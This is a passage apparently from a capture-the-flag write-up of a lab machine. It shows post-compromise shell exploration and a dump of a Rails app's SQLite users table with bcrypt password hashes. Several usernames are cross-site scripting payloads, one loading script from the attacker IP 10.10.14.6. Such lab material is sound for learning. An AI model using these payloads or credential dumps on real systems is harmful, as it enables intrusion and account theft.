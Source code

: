 
There are three folders in `/var/www`:

```

rails@derailed:/var/www$ ls 
html  openmediavault  rails-app

```

`html` is just the default Debian nginx page. `rails-app` is clipnotes application. `openmediavault` looks like an instance of that (which I’ll come back to later).

In `rails-app/db` there’s a SQLite DB:

```

rails@derailed:/var/www/rails-app/db$ ls
development.sqlite3  migrate  schema.rb

```

There’s a few tables:

```

rails@derailed:/var/www/rails-app/db$ sqlite3 development.sqlite3 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  reports               users               
notes                 schema_migrations

```

Besides junk I submitted, there are two other users, tody and alice:

```

sqlite> .headers on
sqlite> select * from users;
id|username|password_digest|role|created_at|updated_at
1|alice|$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.|administrator|2022-05-30 18:02:45.319074|2022-05-30 18:02:45.319074
2|toby|$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle|user|2022-05-30 18:02:45.542476|2022-05-30 18:02:45.542476
105|0xdf|$2a$12$DJB3GIxYkpz1rkOxWKmwP.cnm6ic.jdWcFBFxXwirw.VS5dFPybHe|user|2023-07-19 17:13:44.797453|2023-07-19 17:13:44.797453
106|0xdf<b>test</b>|$2a$12$sG8d45xLAgVjrhY7kVeiNuWBN8S04ioNgtdgYqw2uMAyZZXW8nbT2|user|2023-07-19 19:32:11.049504|2023-07-19 19:32:11.049504
107|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|$2a$12$fDMVCFjjoboVvHFz9U2Kbe536euIA6Gm0dqrknQMzafEWO7bfuIq.|user|2023-07-19 20:08:52.224937|2023-07-19 20:08:52.224937
108|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A|$2a$12$Q0AaVfmLF6Yp.lESM9c9re445KypgBXTQYfVUSZi8VKjjFE8OEaXW|user|2023-07-19 21:04:05.518276|2023-07-19 21:04:05.518276
109|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9|$2a$12$Cs8zMXcNmwPPdqDEsjbHO.dDWdg0fsEoyKMrlCG6g4S8byWamxfma|user|2023-07-19 21:05:36.554805|2023-07-19 21:05:36.554805
110|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>alert(1)</script>|$2a$12$bl5b5OhOPon6yWiCecQmn.XA5TrfzPuBy0q1s3cq9JllNoWB1LHUW|user|2023-07-19 21:10:58.115547|2023-07-19 21:10:58.115547
111|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=alert(1) />|$2a$12$6JxEirjtiNeeqfh1q/YDb./QlruSQqZwcQiS9C1xSces1VNL2jOM2|user|2023-07-19 21:13:25.997637|2023-07-19 21:13:25.997637
112|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script src="http://10.10.14.6/x.js"></script>|$2a$12$wgTlg7DLNb.pkdxBLVHc3O0IGQXkXunE1U5SpMH.tQBxY607fdQza|user|2023-07-19 21:16:10.817502|2023-07-19 21:16:10.817502
113|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>document.location="http://10.10.14.6/test";</script>|$2a$12$D2JoijAMCVcIrKVL34vdJeA6P.fXeRRZSstyqRORQ17DW/aRtZNNe|user|2023-07-19 21:19:48.760857|2023-07-19 21:19:48.760857
```